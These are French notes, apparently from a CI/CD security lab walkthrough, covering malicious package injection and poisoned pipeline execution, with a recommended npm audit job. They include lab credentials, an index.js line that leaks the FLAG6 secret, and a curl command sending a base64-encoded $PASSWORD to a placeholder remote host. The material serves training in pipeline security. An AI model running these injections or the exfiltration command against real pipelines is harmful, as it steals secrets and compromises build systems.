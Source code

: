 - Injection de packages (par ex npm) malveillant dans le pipeline

---

Exemple sur http://40.113.34.255:3000/Wonderland/twiddledee 

thealice:thealice


```ssh
$ git clone http://40.113.34.255:3000/Wonderland/twiddledee
$ cd twiddledee
$ nano index.js

```
ajout de la ligne 

```js
console.log(Buffer.from(process.env.FLAG6).toString("base64"))
```

```
git tag 1.2.0 HEAD
git push origin 1.2.0

```

Allons jenkins 
alice:alice 
http://40.113.34.255:8080/job/wonderland-twiddle/job/wonderland-twiddledum/lastSuccessfulBuild/console

---

### Recommandations

Implementations de scan de dépendance

```yaml
security_scan:
  stage: security_scan
  script:
    - npm audit --audit-level=high
  only:
    - master
```

--- 

## CICD-SEC-4: Poisoned Pipeline Execution (PPE)
Un attaquant crée une nouvelle branche distante dans le référentiel, dans laquelle il met à jour le fichier de configuration du pipeline avec des commandes malveillantes destinées à accéder aux informations d'identification ou execution de code.

> Exemple sur gitlab 

Même sans avoir accès au retour des ci/cd, on peut envoyer les informations sur serveur distant.
```
curl -d creds="$(echo $PASSWORD | base64) http://monadresse.op
```

---